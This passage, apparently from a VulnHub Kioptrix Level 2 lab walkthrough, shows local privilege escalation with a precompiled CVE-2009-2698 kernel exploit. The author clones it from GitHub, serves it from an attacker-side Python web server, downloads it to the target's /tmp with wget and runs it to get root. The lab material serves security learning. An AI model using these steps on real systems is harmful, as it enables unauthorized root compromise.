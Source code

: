 [GitHub - CVE-2009-2698 compiled for CentOS 4.8](https://github.com/xiaoxiaoleo/CVE-2009-2698)

```bash
# Downloading Exploit
git clone https://github.com/xiaoxiaoleo/CVE-2009-2698.git
cd CVE-2009-2698
```

The exploit in the repository is already compiled so we can use it directly. After cloning the repository the exploit needs to be copied over onto the target system.

```bash
# Python Webserver
python -m http.server 9001
```

![Python Server|480](images/vulnhub-kioptrix-lvl2/python.png)

On the target system in the current directory, we do not have write permission.

```bash
ls -lah

cd /tmp
ls -lah
```

![Netcat|480](images/vulnhub-kioptrix-lvl2/netcat-4.png)

I used the `/tmp` directory to download the exploit and execute it.

```bash
# Downloading Exploit
wget http://10.0.2.15:9001/exp

# Running Exploit
./exp
chmod 755 exp
set -m
./exp

# Checking Permission
whoami
id
```
